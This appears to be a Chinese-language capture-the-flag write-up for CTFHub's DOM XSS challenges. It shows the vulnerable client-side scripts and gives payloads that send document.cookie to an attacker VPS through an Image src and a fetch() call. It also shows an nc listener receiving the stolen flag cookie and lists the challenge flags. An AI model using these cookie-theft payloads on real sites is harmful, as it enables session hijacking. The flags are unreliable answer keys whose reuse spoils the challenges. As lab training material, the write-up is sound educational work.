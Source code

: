 flag: `ctfhub{a66002481465aececc3d69b6}`

### XSS - DOM 反射

首先翻一下源代码，客户端修改内容的代码是这样的：

```html
<script>
	$("#text")[0].innerHTML = 'asdasd';
</script>
```

所以有 payload：

```
bob';

var img = new Image();
img.src = "http://YOUR_VPS_ADDR:1111/" + escape(document.cookie);
document.body.appendChild(img);

'
```

```shell
root@-6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 4774 received!
GET /flag%3Dctfhub%7B991562cd90e38072ba51495d%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://challenge-886619cba6c3182b.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

flag: `ctfhub{991562cd90e38072ba51495d}`

### XSS - DOM 跳转

跳转部分代码：

```html
<script>
	var target = location.search.split("=")
	if (target[0].slice(1) == "jumpto") {
		location.href = target[1];
	}
</script>
```

所以对应的 payload：

```
http://challenge-648e4b5b0920e51b.sandbox.ctfhub.com:10800/?jumpto=javascript:

(function(){
    fetch('http://YOUR_VPS_ADDR:1111/' + escape(document.cookie));
 })()

```
